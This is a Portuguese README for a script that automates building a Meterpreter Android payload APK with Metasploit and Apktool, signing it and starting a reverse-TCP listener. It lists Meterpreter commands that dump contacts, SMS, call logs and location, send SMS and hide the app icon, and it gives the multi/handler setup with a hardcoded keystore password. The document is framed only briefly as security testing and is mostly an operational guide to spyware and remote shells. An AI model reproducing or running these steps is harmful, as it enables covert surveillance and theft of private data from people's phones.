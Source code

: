 # Script brunao.py

Este script foi desenvolvido para automatizar várias etapas de testes e manipulações no Metasploit Framework e no Android. Ele realiza as seguintes tarefas:

- Atualiza o Metasploit Framework
- Gera um payload para Android
- Descompila e recompila o APK gerado
- Atualiza a versão do APK para Android 13
- Assina e otimiza o APK
- Inicia o listener do Meterpreter para conexões

## Funcionalidades

### 1. Atualização do Metasploit Framework
O script começa atualizando o Metasploit Framework e seu Linux todo para garantir que você esteja usando a versão mais recente. Durante a execução, ele verifica a versão instalada e a atualiza automaticamente se necessário.

### 2. Geração do Payload Android
O script gera um payload para Android e o salva como um arquivo APK, pronto para ser utilizado em testes de segurança.

### 3. Descompilação do APK
O APK gerado é descompilado usando a ferramenta Apktool, permitindo que o conteúdo seja acessado e modificado.

### 4. Atualização para Android 13
Após a descompilação, o script atualiza a versão do APK para Android 13, garantindo que o arquivo gerado seja compatível com a versão mais recente do sistema operacional.

### 5. Recompilação e Assinatura do APK
O APK modificado é recompilado e assinado digitalmente usando um keystore, o que permite sua execução em dispositivos Android.

### 6. Início do Listener do Meterpreter
Por fim, o script inicia o listener do Meterpreter, configurando a porta de escuta e esperando a conexão do dispositivo.

## Requisitos

- **Python 3**: O script foi desenvolvido para Python 3.
- **Metasploit Framework**: O Metasploit Framework deve estar instalado no sistema para a execução do script.
- **Apktool**: Usado para descompilar e recompilar o APK.
- **Keystore**: Necessário para assinar o APK gerado.

## Como Usar

1. Clone este repositório ou baixe o arquivo `brunao.py`.
2. Certifique-se de que o Metasploit Framework, Apktool e o Python 3 estão corretamente instalados no seu sistema.
3. Execute o script com o seguinte comando:

    ```bash
    sudo python3 brunao.py -r
    ```

4. Durante a execução, o script pedirá algumas informações, como a porta de destino para o listener (LPORT).
5. Após a execução bem-sucedida, você terá o APK assinado e otimizado pronto para ser utilizado.

## Exemplos de Uso

- **Iniciar o script**:

    ```bash
    sudo python3 brunao.py -r
    ```
  <h3>Quando tudo tiver compilado vai pedir uma senha a senha é: password</h3>

    O script vai iniciar o processo automaticamente e pedirá que você forneça as informações necessárias, como a porta (LPORT).

## Contribuições

## Sinta-se à vontade para contribuir com melhorias ou correções. Caso encontre problemas, por favor, abra uma issue no repositório.


Comandos específicos para Android
activity_start: Inicia uma atividade Android a partir de uma string Uri.
check_root: Verifica se o dispositivo Android é root.
dump_calllog: Obtém o histórico de chamadas.
dump_contacts: Obtém a lista de contatos.
dump_sms: Obtém as mensagens SMS.
geolocate: Obtém a localização atual usando geolocalização.
hide_app_icon: Oculta o ícone do aplicativo do lançador.
interval_collect: Gerencia a coleta de dados em intervalos.
send_sms: Envia SMS do dispositivo alvo.
sqlite_query: Consulta um banco de dados SQLite no armazenamento.
wakelock: Habilita ou desabilita o Wakelock.
wlan_geolocate: Obtém a localização usando informações de WLAN.


## Iniciar coleta de Wi-Fi:


Copiar código
interval_collect -a start -c wifi
Pausar a coleta de localização geográfica:


Copiar código
interval_collect -a pause -c geo
Exibir os dados coletados de torres de celular:


Copiar código
interval_collect -a dump -c cell


## (depois que instala o apk use sempre esse) Se você quiser iniciar o listener manualmente, execute o seguinte comando no terminal:


msfconsole
E, após carregar o Metasploit, configure o listener com o comando:


use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST [IP_LOCAL]
set LPORT [PORTA]
exploit
Troque [IP_LOCAL] pelo seu IP local e [PORTA] pela porta que você configurou (como a porta 4444).

## se querer gerar de novo o apk apague os arquivos como pastas e apk's gerado

use: 
       sudo rm -rf Brunao_kyti
       sudo rm -rf brunao_kyti
       sudo rm -rf brunao_kyti.apk
       sudo rm -rf brunao_kyti_final.apk
       sudo rm -rf brunao_kyti_signed.apk


## depois de gerar o apk instaler o brunao_kyti_final.apk, guarde e use o msconsole. 

